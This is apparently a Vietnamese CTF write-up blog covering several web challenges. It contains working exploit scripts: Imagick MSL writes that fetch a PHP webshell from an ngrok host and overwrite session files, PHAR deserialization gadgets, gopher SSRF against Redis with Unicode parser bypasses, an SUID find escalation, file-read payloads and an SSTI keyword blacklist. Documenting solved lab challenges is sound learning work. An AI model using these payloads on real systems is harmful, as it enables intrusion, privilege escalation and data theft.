


## HDBANK / The Old Trick Revenge

Bài này thì em first blood trong cuộc thi HDBANK Hackathon


Source: https://github.com/threalwinky/CTF-archive/tree/main/The%20Old%20Trick%20-%20Revenger

Em sẽ trình bày hướng giải revenger vì trong lúc thi thì em đã follow theo hướng này.

Nói qua về trang web thì nó sẽ trông như thế này


Điền vào và ta có


Ở đây có vuln XSS nhưng không khai thác được gì thêm. Ngoài ra còn có một trang profile.php để thay đổi class Red, Green, Blue, ... Và chỗ này chúng ta có thể khai bằng cách gọi một class khác của PHP như Error, SplFileObject, ...


Đầu tiên để có flag thì ta sẽ cần thoả mãn đoạn PHP sau

```php
<?php 
  if ( $_SESSION["isAuth"] === true && isset($_SESSION["isHeck3rLord"]) && $_SESSION["isHeck3rLord"] === 1337 ) {
      echo "<strong>Ngài! Flag của ngài đây: </strong>";
      system("/readflag");
  }
?>
```

Có thể thấy cả 3 đều liên quan đến session nên mình sẽ tìm cách thay đổi thông tin trong session.

Và session nó sẽ được locate ở `/tmp`


Vậy chỉ cần mình overwrite được file này thì mình sẽ solve được. 

Ở đây em lại phát hiện trong Dockerfile có install thư viện imagick nhưng không xài

```php
RUN apt-get update && apt-get install -y \
    libmagickwand-dev \
    libmagickcore-dev \
    --no-install-recommends \
    && pecl install imagick \
    && docker-php-ext-enable imagick \
    && apt-get clean \
    && rm -rf /var/lib/apt/lists/*
```

Em thử xài class của thư viện này


Và quả nhiên là xài được và trả ra lỗi


Việc thêm dư thư viện này chắc chắn là có ý đồ gì trong bài này nên em research về `imagick php exploit` và phát hiện một post sau

https://book.jorianwoltjer.com/web/server-side/imagemagick#php-vid-msl-path-rce-less-than-7.1.0-40-jul-2022:~:text=PHP%20vid%3Amsl%3A%20path%20RCE%20(%3C%207.1.0%2D40%20%3D%20Jul%202022),-While%20researching%20Arbitrary

Tóm tắt thì đây là một lỗi mà ta có thể post lên một file msl được lưu trong `/tmp` sau đó được trigger bởi một protocol `vid:msl:`. Khi đó imagick sẽ thực thi lệnh trong file msl có thể là đọc file, ghi file, ...

Em sẽ thử gen một file shell.png như của blog: `convert xc:red -set 'Copyright' '<?php @eval(@$_REQUEST["a"]); ?>' shell.png`

```python
import requests

URL = "http://127.0.0.1:20102/"

session = requests.Session()

r = session.get(URL)

def login():
    note = {
        'username':'aaaa',
        'quote':'aaaa'
    }
    r = session.post(URL + 'login.php', data=note)

def trigger():
    p = {
        'username': 'aaaa',
        'quote':'vid:msl:/tmp/php*',
        'color':'Imagick'
    }
    r = session.post(URL + 'profile.php', data=p)

def write():
    xml = f'''
<?xml version="1.0" encoding="UTF-8"?>

<image >
<read filename="https://630231ccae99.ngrok-free.app/shell.png" />
<write filename="/tmp/abcd"/>
</image>
    '''
    r = session.post(URL, files={'file': ('a.msl', xml)})

login()
trigger()
write()
```

Request thành công và server đã lấy được image


Và ghi vào file `/tmp/abcd`


Nhưng ở dạng này thì PHP session không thể unserialize được nên em tìm cách write file khác.

Sau khi đọc doc của imagick thì em phát hiện có một mode khá hay dùng để chuyển dữ liệu base64 sang image https://imagemagick.org/script/formats.php#:~:text=this%20expensive%20operation.-,INLINE,-RW


Và ta có thể lợi dụng để truyền vào plaintext. Để sử dụng thì ta cần thêm một format cho data và ta có thể sử dụng các dạng binary như 8bim, app1, iptc, ...


Sử dụng mode inline và format app1 là có session để thoả yêu cầu challenge. 

```python
import requests

URL = "http://127.0.0.1:20102/"

session = requests.Session()

r = session.get(URL)

def login():
    note = {
        'username':'aaaa',
        'quote':'aaaa'
    }
    r = session.post(URL + 'login.php', data=note)

def trigger():
    p = {
        'username': 'aaaa',
        'quote':'vid:msl:/tmp/php*',
        'color':'Imagick'
    }
    r = session.post(URL + 'profile.php', data=p)

def write():
    xml = f'''
<?xml version="1.0" encoding="UTF-8"?>
<image >
<read filename="inline:data:text/APP1;base64,dXNlcm5hbWV8czo0OiJhYWFhIjtxdW90ZXxzOjQ6ImFhYWEiO2NvbG9yfHM6MzoiUmVkIjtpc0F1dGh8YjoxO2lzSGVjazNyTG9yZHxpOjEzMzc7" />
<write filename="/tmp/abcd"/>
</image>
    '''
    r = session.post(URL, files={'file': ('a.msl', xml)})

login()
trigger()
write()
```


Solve script cuối cùng của em:

```python
import requests
import re

URL = "http://127.0.0.1:20102/"

session = requests.Session()

r = session.get(URL)
session_id = ""

def login():
    note = {
        'username':'aaaa',
        'quote':'aaaa'
    }
    r = session.post(URL + 'login.php', data=note)
    global session_id
    session_id = session.cookies.get('PHPSESSID')
    print(session_id)

def trigger():
    p = {
        'username': 'aaaa',
        'quote':'vid:msl:/tmp/php*',
        'color':'Imagick'
    }
    r = session.post(URL + 'profile.php', data=p)

def write():
    xml = f'''
<?xml version="1.0" encoding="UTF-8"?>
<image >
<read filename="inline:data:text/APP1;base64,dXNlcm5hbWV8czo0OiJhYWFhIjtxdW90ZXxzOjQ6ImFhYWEiO2NvbG9yfHM6MzoiUmVkIjtpc0F1dGh8YjoxO2lzSGVjazNyTG9yZHxpOjEzMzc7" />
<write filename="/tmp/sess_786925d8d1344256f976108d4a9b9c33"/>
</image>
    '''
    try:
        r = session.post(URL, files={'file': ('a.msl', xml)})
    except:
        pass

def get_flag():
    session2 = requests.Session()
    session2.cookies.set('PHPSESSID', '786925d8d1344256f976108d4a9b9c33')
    r = session2.get(URL + 'index.php')
    flag = re.findall('HDBH{.*}', r.text)
    print(flag[0])

login()
trigger()
write()
get_flag()
```


### Note

Đối với challenge bị unintended, source tại đây: https://github.com/threalwinky/CTF-archive/tree/main/The%20Old%20Trick


Điểm khác biệt là flag nằm thẳng trong file config.php luôn

```php
<?php

session_start();
$FLAG = "HDBH{test_flag}";

?>
```

Nên ta chỉ cần xài SqlFileObject là ra chứ không cần Imagick

Payload:

```
SplFileObject

php://filter/convert.base64-encode/resource=/var/www/html/config.php
```


Vào lại index.php


base64 decode string này là ta có flag


## Dreamhack / Secret Document Storage

Link challenge: https://dreamhack.io/wargame/challenges/1053

Giao diện của trang web


Ta có thể thấy 3 feature:

* report 

Endpoint này sẽ upload lên một file có title và details, file tải lên phải có đuôi jpg hoặc png


Tên file sẽ được random


Và lưu ở folder `uploads`


* delete

Nhập vào tên file ảnh sẽ xoá trong folder `uploads`


* admin


Nhập vào một admin code và so sánh md5 với một code mà author cho (chưa biết). 

```php
<?php
require("db.php");
if ($_SERVER['REQUEST_METHOD'] == 'GET') {
    include "./templates/admin.html";
}
else if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    try {
	$input_code = $_POST['access_code'];
	session_start();
        if (md5($input_code) === '{{REDACTED}}' && $_SERVER['REMOTE_ADDR'] === '127.0.0.1') { 
		$_SESSION['admin'] = true;
		echo "An access code has been issued upon correct access.";
		echo "Administrator privileges have been granted.";
        }
	else {
            echo "<script>alert('The access code is incorrect. Administrator registration is only possible on local host.');</script>";
            echo "<script>location.href='/index.php'</script>";
        }
    }
    catch(Exception $e) {
        echo "<script>alert('Wrong.');</script>";
        echo "<script>location.href='/index.php'</script>";
    }
}

else {
    echo "<script>alert('This is an unusual approach.');</script>";
    echo "<script>location.href='/index.php'</script>";
}
?>
```

Khi admin code đúng thì ta sẽ có quyền admin. Và khi có quyền admin thì ta sẽ chạy được lệnh sau trong file dashboard.php


```php
<?php
require("db.php");
session_start();

if ($_SESSION['admin']) {
	if ($_POST['filename']) {
		include "./templates/dashboard.html";
		include ($_POST['filename']);
    	}
	else {
		include "./templates/dashboard.html";
	}
}
else {
    echo "<div class='center-text'>You are not admin.</div>";
}
?>
```

Ở đây ta có thể thấy có một hàm include và sử dụng filename mình nhập vào và mình xác định đây là vuln lfi to rce sử dụng php filter chain: https://hackmd.io/@endy/Skxms9eW2

Ok ta đã xác định vuln ở đó nhưng làm sao để có admin role ? Chúng ta có thể thấy amdin code được đưa vào database trong một secret document:

```sql
-- document 테이블에 데이터 삽입
INSERT INTO document (title, content, filename)
VALUES ('TOP SECRET DOCUMENT', 'REDACTED', '655f365d59872.png');

-- secret 테이블에 데이터 삽입
INSERT INTO secret (secret_data)
VALUES ('REDACTED');
```

Và file đó được đưa vào đây

`COPY ./init.sql /docker-entrypoint-initdb.d/`

Vậy phải có một bug LFI để đọc, tiếp theo ta thấy có một class `Requests` trong `delete.php` có hàm `__destruct` được khai báo nhưng không xài nên chắc chắn có ý đồ gì đó ở đây. Ta test với `file://` protocol và nó works


Vậy thì phải có cách để trigger class này. Đoạn code phía dưới đã trả lời tất cả. Ta thấy có một hàm `file_get_contents` sau:

```php
	    if (!in_array(strtolower($imageType), $allowedTypes)) {
    		echo "Invalid image type.";
    		exit(-1);
	    }
	    $imageData = file_get_contents($filePath);
```

Cộng với việc server sử dụng PHP7.4

```dockerfile
RUN apt update && apt install -y software-properties-common
RUN add-apt-repository ppa:ondrej/php && \
    apt update && \
    apt install -y php7.4 mysql-server apache2
RUN apt install -y php7.4-mysqli
RUN apt install php7.4-curl
```

Nên mình chắc chắn có lỗi PHAR deserialization ở đây: https://threalwinky.github.io/post/phar-deserialization/

Ok chain tất cả các thứ lại ta có các step sau để solve bài này:

* Tạo file phar để đọc admin secret

```php
<?php

class Requests {
    public $url = 'file:///docker-entrypoint-initdb.d/init.sql';
    private $options = 'GET';
    private $postData = '';
    private $cookie = '';
}

$obj = new User();
$phar = new Phar("solve1.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();

?>
```

* Đổi tên để bypass


* Upload file phar lên


Vào check thì thấy file đã ở trong uploads


* Trigger phar deserializa thì ta có secret


Lên remote thì ta có md5 của admin `99519c9e6b550cf4644151331e3639c0`


* Đem lên crack station thì ta có admin code là `accesscode` và flag2 là `under_the_red_house_roof!}`



* Sử dụng tiếp phar deserialization để bắt class `Requests` gửi đến `admin.php` thoả mãn `$_SERVER['REMOTE_ADDR'] === '127.0.0.1'`

```php
<?php

class Requests {
    public $url = 'http://127.0.0.1/admin.php';
    private $options = 'POST';
    private $postData = 'access_code=accesscode';
    private $cookie = 'PHPSESSID=hda12egu30m4erha9bn8ttn061';
}

$obj = new Requests();
$phar = new Phar("solve2.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();

?>
```

* Upload lại và trigger phar deserialization


* Vậy là đã lên quyền admin, tiến hành vào dashboard.php


* Ở đây ta sử dụng php filter chain để lấy RCE


paste vào nhưng không lấy được flag


Ở đây mình đọc lại đoạn docker và thấy rằng /readflag chỉ được đọc bởi root, nhưng hàm find cũng được SUID

```dockerfile
COPY ./readflag /readflag

RUN chmod u+s /usr/bin/find
RUN chmod 700 /readflag
RUN rm -rf /var/www/html/*
```

Lúc này thì ta sẽ leo thang bằng payload sau

`find /readflag -exec cat {} \;`


Flag của bài: `DH{M3rRy_ChristM4s!_th3_G1fT_1s_under_the_red_house_roof!}`


## Dreamhack / Secret Document Storage : REVENGE 

Link challenge: https://dreamhack.io/wargame/challenges/1044

Bài này cũng giống trên nhưng bị fix một chỗ là file `/docker-entrypoint-initdb.d/init.sql` sẽ bị xoá nên ta không thể đọc được access_code

```dockerfile
CMD service mysql start && \
    mysql -u root < /docker-entrypoint-initdb.d/init.sql && \
    service apache2 start && \
    rm -rf /docker-entrypoint-initdb.d && \
    tail -f /dev/null
```

Nhưng chúng ta có thể bypass sử dụng unicode như sau


Vậy là `ò` có thể thế cho `o`


Crack md5 này ta có access_code là `windows`



Có access code thì upload phar file như bài trên là được


Sử dụng `find /readflag -exec cat {} \;` để đọc flag1


`DH{S0rRy_I_w4nTed_Mod1fi3D_`

Đọc db.php để lấy creds


Đọc flag2 sử dụng `mysql -h 127.0.0.1 -u x-mas -p"qwer1234" -e "select * from secret;" document 2>/dev/null`


Flag của bài: `DH{S0rRy_I_w4nTed_Mod1fi3D_Un1nt3ndeD_vu1n3r4bl1tY}`

## Dreamhack / First-app 

Link challenge: https://dreamhack.io/wargame/challenges/230

Giao diện trang web: 


Sau khi đăng nhập ta sẽ có một session được lưu trong redis


Ta cũng thấy flag cũng nằm trong redis với key random. Nên mình có nhiệm vụ là leak key và lấy flag thông qua key.

Trước khi exploit thì mình có research và thấy redis có thể bị leak nếu ta có thể ssrf bằng gopher protocol 

https://www.hackthebox.com/blog/red-island-ca-ctf-2022-web-writeup#:~:text=127.0.0.1%3A6379.-,Getting%20our%20hands%20red%20on%20Redis%20%F0%9F%A9%B8,-We%20know%20that

Mình có một đoạn test sau:

```bash
root@cc1da59f405e:/app# curl gopher://redis:6379/_keys%20*%0d%0aquit                    
*2
$36
6d24b3ef-8167-4a2d-a218-3d855145d958
$128
af2080666a830951c60cb41d006c86e0d9f32432ae0d60ecca414afe15463c7124aeedab2e3db13329b8ccf0da2f0ad90720bdc8094b1130d6605e00b22482b1
+OK
```

Và

```bash
root@cc1da59f405e:/app# curl gopher://redis:6379/_get%20af2080666a830951c60cb41d006c86e0d9f32432ae0d60ecca414afe15463c7124aeedab2e3db13329b8ccf0da2f0ad90720bdc8094b1130d6605e00b22482b1%0d%0aquit                    
$8
testflag
+OK
```

Vậy là nếu chúng ta tìm được ssrf là ăn ngay và khá ngon khi web cho hẳn một đoạn curl sau

```js
router.get("/", (req, res) => {
    let sess = req.session;
    if(!sess.user)
        return res.redirect("/login");
    let logined = sess.user.name;
    let e = "";
    profile_URL = url.parse(sess.user.profile.url);
    if(!profile_URL.host.endsWith(config.HOST) || profile_URL.protocol.toLowerCase() == "file:") {
       return res.render("index", {
           e: "Nope!",
           logined
       });
    }

    if(!sess.user.profile.isRender) {
        return res.render("index", {
            e: false,
            u: sess.user,
            r: "Only for allowed user",
            logined
        });
    }

    let curl = new Curl();
    curl.setOpt("URL", profile_URL.href);
    curl.on("data", (chunk) => {
        return res.render("index", {
            e: false,
            u: sess.user,
            r: chunk,
            logined
        });
    });
    curl.on("error", (chunk) => {
        return res.render("index", {
            e: "Error..",
            logined
        });
    });

    curl.perform();
});
```

Chúng ta sẽ đi qua từng filter

* Yêu cầu isRender

```js
if(!sess.user.profile.isRender) {
        return res.render("index", {
            e: false,
            u: sess.user,
            r: "Only for allowed user",
            logined
        });
    }
```

Ta có thể override bằng endpoint `/add`

```js
router.post("/add", (req, res) => {
    sess = req.session;
    if(!sess)
        return res.redirect("/login");

    if(!req.body.key || !req.body.value)
        return res.redirect("/");

    let key = req.body.key;
    let value = req.body.value; 

    let filter = /[_\\\/\|'"` \n\r\(\)]/;
    if(value.length >= 25) {
        return res.json({
            c: -1,
            e: "Too long"
        });
    }
    if((key.length >= 5) && filter.test(key)) {
        return res.json({
            c: -1,
            e: "Invalid char"
        });
    }

    sess.user = new config.addSessionData(sess.user, key, value);
    return res.json({
        c: 0
    });

});
```

Script để test

```python
import requests
import re

URL = 'http://127.0.0.1:8000/'

session = requests.Session()

user_id = ""

def login():
    user = {
        "username": "winky", 
        "password": "123", 
        "email":"winky@a.com"
    }
    r = session.post(URL + "/login", json=user)
    m = re.findall(r'http://127.0.0.1:8000/view/([a-f0-9\-]+)', r.text)
    global user_id
    user_id = m[0]
    
def add():
    data = {
        'key': 'profile',
        'value':{
            'isRender': True,
            'url': f'http://127.0.0.1:8000/view/{user_id}'
        }
    }
    r = session.post(URL + '/add', json=data)
    print(r.text)
    print(session.cookies)
    
def test():
    r = session.get(URL)
    print(r.text)
    
login()
add()
test()
```

Sau khi chạy có thể thấy isRender đã bị override thành True và endpoint `/` sẽ tiến hành `curl`


* chặn nếu host `!profile_URL.host.endsWith(config.HOST)`

Sau khi đã test được link profile thì ta sẽ test với `gopher`, có một vấn để là khi parse ra thì host của ta là `redis:6379` nhưng mục tiêu là phải có đuôi `127.0.0.1:8000`


Làm sao để bypass ? Sau một hồi research thì mình đọc được một blog khá hữu ích như sau:

https://lactea.kr/entry/nodejs-unicode#:~:text=3.-,url.parse,-nodejs%20%EC%97%90%EC%84%9C%20url

Tóm tắt thì ta có thể sử dụng unicode để bypass, ví dụ như `\u212a` khi qua url.parse sẽ thành chữ k. Vậy nếu ta fake được các ký tự trong url như `:`, `/`, `#`, ... thì sao ?

Ta có một đoạn test sau

```js
const url = require("url")
for (let i=0; i<100000; i++){
    // console.log(String.fromCharCode(i))
    const u = `https://test.com${String.fromCharCode(i)}example.com`
    if (url.parse(u).host == 'test.com:example.com'){
        console.log(String.fromCharCode(i))
    }
}
```


Sau khi test thì ta có một số unicode char để bypass dấu `:`

Thử tiếp và ta có 

`／` -> '/'

`﹟` -> '#'

Từ đây ta có payload sau để read keys

```python
import requests
import re

URL = 'http://127.0.0.1:8000/'

session = requests.Session()

user_id = ""

def login():
    user = {
        "username": "winky", 
        "password": "123", 
        "email":"winky@a.com"
    }
    r = session.post(URL + "/login", json=user)
    m = re.findall(r'http://127.0.0.1:8000/view/([a-f0-9\-]+)', r.text)
    global user_id
    user_id = m[0]
    
def add():
    data = {
        'key': 'profile',
        'value':{
            'isRender': True,
            'url': f'gopher://redis︓6379／_keys％20﹡％0d％0a127.0.0.1:8000'
        }
    }
    r = session.post(URL + '/add', json=data)
    print(r.text)
    print(session.cookies)
    
def test():
    r = session.get(URL)
    print(r.text)
    
login()
add()
test()
```


Lúc này host của mình truyền vào bằng unicode đã bị parse thành ascii

và bumphhh


Chạy trên remote:


Ok và ta đã leak dược key của flag. Script lấy flag:

```python
import requests
import re

URL = 'http://host8.dreamhack.games:17748/'

session = requests.Session()

user_id = ""

def login():
    user = {
        "username": "winky", 
        "password": "123", 
        "email":"winky@a.com"
    }
    r = session.post(URL + "/login", json=user)
    m = re.findall(r'http://127.0.0.1:8000/view/([a-f0-9\-]+)', r.text)
    global user_id
    user_id = m[0]
    
def add():
    data = {
        'key': 'profile',
        'value':{
            'isRender': True,
            'url': f'gopher://redis︓6379／_get％20f1c980a8decf8f44305b813e27e9f8933093fc44519d80943955ef252dee8d70b5422f73f16dbf8c77b63ab11b134d7979907eb4a00a266732afcf4a63876a71％0d％0a127.0.0.1:8000'
        }
    }
    r = session.post(URL + '/add', json=data)
    print(r.text)
    print(session.cookies)
    
def test():
    r = session.get(URL)
    print(r.text)
    
login()
add()
test()
```


Flag: `FLAG{6d07a5334a9d12ee2020a4c074526875}`


## SunshineCTF 2025 / Intergalactic Webhook Service

Giải này em clear web nhưng chỉ có một bài whitebox


Source của challenge: 


```python
import threading
from flask import Flask, request, abort, render_template, jsonify
import requests
from urllib.parse import urlparse
from http.server import BaseHTTPRequestHandler, HTTPServer
import socket
import ipaddress
import uuid

def load_flag():
    with open('flag.txt', 'r') as f:
        return f.read().strip()

FLAG = load_flag()

class FlagHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == '/flag':
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(FLAG.encode())
        else:
            self.send_response(404)
            self.end_headers()

threading.Thread(target=lambda: HTTPServer(('127.0.0.1', 5001), FlagHandler).serve_forever(), daemon=True).start()

app = Flask(__name__)

registered_webhooks = {}

def create_app():
    return app

@app.route('/')
def index():
    return render_template('index.html')

def is_ip_allowed(url):
    parsed = urlparse(url)
    host = parsed.hostname or ''
    try:
        ip = socket.gethostbyname(host)
    except Exception:
        return False, f'Could not resolve host'
    ip_obj = ipaddress.ip_address(ip)
    if ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local or ip_obj.is_reserved:
        return False, f'IP "{ip}" not allowed'
    return True, None

@app.route('/register', methods=['POST'])
def register_webhook():
    url = request.form.get('url')
    if not url:
        abort(400, 'Missing url parameter')
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return reason, 400
    webhook_id = str(uuid.uuid4())
    registered_webhooks[webhook_id] = url
    return jsonify({'status': 'registered', 'url': url, 'id': webhook_id}), 200

@app.route('/trigger', methods=['POST'])
def trigger_webhook():
    webhook_id = request.form.get('id')
    if not webhook_id:
        abort(400, 'Missing webhook id')
    url = registered_webhooks.get(webhook_id)
    if not url:
        return jsonify({'error': 'Webhook not found'}), 404
    allowed, reason = is_ip_allowed(url)
    if not allowed:
        return jsonify({'error': reason}), 400
    try:
        resp = requests.post(url, timeout=5, allow_redirects=False)
        return jsonify({'url': url, 'status': resp.status_code, 'response': resp.text}), resp.status_code
    except Exception:
        return jsonify({'url': url, 'error': 'something went wrong'}), 500

if __name__ == '__main__':
    print('listening on port 5000')
    app.run(host='0.0.0.0', port=5000)
```

Đây là một challenge về SSRF nhưng bị filter bằng cách phân giải tên miền nên mình không thể lợi dụng DNS để trỏ về 127.0.0.1 được. Nhưng có một cách để bypass đó là DNS rebinding 

https://cookiearena.org/penetration-testing/dns-rebinding-la-gi/

Tóm tắt thì đây là một domain có thể thay đổi DNS liên tục


Do đó ta có thể bypass hàm phân giải nhưng vẫn giữ khả năng trỏ về 127.0.0.1 được. Để solve thì em đăng ký URL sau. Vì trong challenge đang mở port 5001 để lấy flag


Đăng ký thành công


Trigger


Sau một vài lần thử thì ta sẽ có được flag


## Securinets Quals / Puzzle

Source: https://github.com/threalwinky/CTF-archive/tree/main/Puzzle/Puzzle

Sau khi đọc source thì mình nhận thấy ở hàm đăng ký có thể leo role lên quyền editor

```python
@app.route('/confirm-register', methods=['POST'])
def confirm_register():
    username = request.form['username']
    email = request.form.get('email', '')
    alphabet = string.ascii_letters + string.digits + '!@#$%^&*'
    password = ''.join(secrets.choice(alphabet) for _ in range(12))
    role = request.form.get('role', '2')

    role_map = {
        '1': 'editor',
        '2': 'user',
    }

    if role == '0':
        return jsonify({'error': 'Admin registration is not allowed.'}), 403

    if role not in role_map:
        return jsonify({'error': 'Invalid role id.'}), 400
```

Và nếu ở editor thì có thể đọc bất ký thông tin của user nào. Ở đây, có thể thấy endpoint này sẽ fetch luôn cả password người dùng nên mình sẽ tìm cách leak admin UUID để leak admin password.


```python
@app.route('/users/<string:target_uuid>')
def get_user_details(target_uuid):
    current_uuid = session.get('uuid')
    if not current_uuid:
        return jsonify({'error': 'Unauthorized'}), 401

    current_user = get_user_by_uuid(current_uuid)
    if not current_user or current_user['role'] not in ('0', '1'):
        return jsonify({'error': 'Invalid user role'}), 403

    with sqlite3.connect(DB_FILE) as conn:
        conn.row_factory = sqlite3.Row
        c = conn.cursor()
        c.execute("""
            SELECT uuid, username, email, phone_number, role, password
            FROM users 
            WHERE uuid = ?
        """, (target_uuid,))
        user = c.fetchone()
```

Nhưng leak bằng cách nào ? Khi đọc `/publish` thì mình thấy có thể thêm collaborator thông qua username nên mình có thể thêm admin vào.

```python
@app.route('/publish', methods=['GET', 'POST'])
    def publish():
        if not session.get('uuid'):
            return redirect('/login')
    
        user = get_user_by_uuid(session['uuid'])
        if not user:
            return redirect('/login')
        
        if user['role'] == '0':
            return jsonify({'error': 'Admins cannot publish articles'}), 403
        
        if request.method == 'POST':
            title = request.form.get('title')
            content = request.form.get('content')
            collaborator = request.form.get('collaborator')
            
            if not title or not content:
                return jsonify({'error': 'Title and content are required'}), 400
            
            try:
                with sqlite3.connect(DB_FILE) as conn:
                    c = conn.cursor()
                    c.execute("SELECT COUNT(*) FROM articles WHERE author_uuid = ?", (session['uuid'],))
                    article_count = c.fetchone()[0]
                    
                    if (article_count >= 20):
                        return jsonify({'error': 'You have reached the maximum limit of 20 articles'}), 403
                    
                    if collaborator:
                        collab_user = get_user_by_username(collaborator)
                        if not collab_user:
                            return jsonify({'error': 'Collaborator not found'}), 404
                        
                        request_uuid = str(uuid4())
                        article_uuid = str(uuid4())
                        c.execute("""
                            INSERT INTO collab_requests (uuid, article_uuid, title, content, from_uuid, to_uuid)
                            VALUES (?, ?, ?, ?, ?, ?)
                        """, (request_uuid, article_uuid, title, content, session['uuid'], collab_user['uuid']))
                        conn.commit()
                        return jsonify({'message': 'Collaboration request sent'})
                    else:
                        article_uuid = str(uuid4())
                        c.execute("""
                            INSERT INTO articles (uuid, title, content, author_uuid)
                            VALUES (?, ?, ?, ?)
                        """, (article_uuid, title, content, session['uuid']))
                        conn.commit()
                        return jsonify({'message': 'Article published successfully'})
            except Exception as e:
                return jsonify({'error': str(e)}), 500
        
        return render_template('publish.html')
```

Nhưng phải chờ admin accept lời mời collab. Tới đây mình đọc source của endpoint `accept` và đây chính là key của bài. Ta có thể thấy user được lấy bằng uuid trong session nhưng không hề check username, email, v.v. nên với vai trò là người publish ta có thể `accept giùm` admin

```python
@app.route('/collab/accept/<string:request_uuid>', methods=['POST'])
def accept_collaboration(request_uuid):
    if not session.get('uuid'):
        return jsonify({'error': 'Unauthorized'}), 401

    user = get_user_by_uuid(session['uuid'])
    if not user:
        return redirect('/login')
    if user['role'] == '0':
        return jsonify({'error': 'Admins cannot collaborate'}), 403

    try:
        with sqlite3.connect(DB_FILE) as conn:
            conn.row_factory = sqlite3.Row
            c = conn.cursor()

            c.execute("SELECT * FROM collab_requests WHERE uuid = ?", (request_uuid,))
            request = c.fetchone()

            if not request:
                return jsonify({'error': 'Request not found'}), 404

            c.execute("""
                INSERT INTO articles (uuid, title, content, author_uuid, collaborator_uuid)
                VALUES (?, ?, ?, ?, ?)
            """, (request['article_uuid'], request['title'], request['content'], 
                  request['from_uuid'], request['to_uuid']))

            c.execute("UPDATE collab_requests SET status = 'accepted' WHERE uuid = ?", (request_uuid,))
            conn.commit()

            return jsonify({'message': 'Collaboration accepted'})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

POC: 

* Đăng ký account với role editor


* Bây giờ ta có thể dễ dàng đọc thông tin thông qua UUID


* Thử publish với collaborator là `admin`


* Vào `collaborations` và thấy một request collaborator
 


* Accept bằng 1 post request như sau
 


* Tới đây ta vào post vừa mới đăng và có amdin collab và đã leak được UUID
 

 


* Đọc thông tin của user admin


* Đăng nhập vào admin


Vậy là ta đã vào được admin panel. Tới đây thì mình thấy có endpoint bị SSTI nhưng mà filter này nohope quá nên mình skip

```python
@app.route('/admin/ban_user', methods=['POST'])
@admin_required
def ban_user():
    def is_safe_input(user_input):
        blacklist = [
        '__', 'subclasses', 'self', 'request', 'session',
        'config', 'os', 'import', 'builtins', 'eval', 'exec', 'compile',
        'globals', 'locals', 'vars', 'delattr', 'getattr', 'setattr', 'hasattr',
        'base', 'init', 'new', 'dict', 'tuple', 'list', 'object', 'type',
        'repr', 'str', 'bytes', 'bytearray', 'format', 'input', 'help',
        'file', 'open', 'read', 'write', 'close', 'seek', 'flush', 'popen',
        'system', 'subprocess', 'shlex', 'commands', 'marshal', 'pickle', 'tempfile',
        'os.system', 'subprocess.Popen', 'shutil', 'pathlib', 'walk', 'stat',
        '[', '(', ')', '|', '%','_', '"','<', '>','~'
        ]
        lower_input = user_input.lower()
        return not any(bad in lower_input for bad in blacklist)

    username = request.form.get('username', '')

    if not is_safe_input(username):
        return admin_panel(ban_message='Blocked input.'), 400

    with sqlite3.connect(DB_FILE) as conn:
        c = conn.cursor()
        c.execute("SELECT * FROM users WHERE username = ?", (username,))
        user = c.fetchone()

    if not user:
        template = 'User {} does not exist.'.format(username)
    else:
        template = 'User account {} is too recent to be banned'.format(username)

    ban_message = render_template_string(template)

    return admin_panel(ban_message=ban_message), 200
```

Ta cũng thấy có `/db` và `/data` khá khả nghi nên mình thử vào


 
File `secrets.zip` cần password nên mình khá chắc flag nằm trong này. Lúc này chỉ cần tìm password thui


Thông tin trong old.db có phần password nhưng bị hash hết rồi nên mình skip


Thử tìm trong file `dbconnect.exe` xem


Password: `PUZZLE+7011_X207+!*`

Đây rồiiii, mình thử extract và đã có flag


Flag: Securinets{777_P13c3_1T_Up_T0G3Th3R}

## CrewCTF 2025 / hate-notes

Last weekend, I played CrewCTF 2025 with my team laevatain. There is a challenge related to CSS injection and Content Security Policy (CSP) called `Hate Notes`


And I'm the fifth one to solve it.


So let’s jot down what I did. The source is too long so I refer it here : https://github.com/threalwinky/CTF-archive/tree/main/hate-notes/hate-notes

### Overview

First, let’s take a look at the website.


This is just a normal note making website


### Recognize

I try to make a simple note that contains XSS payload


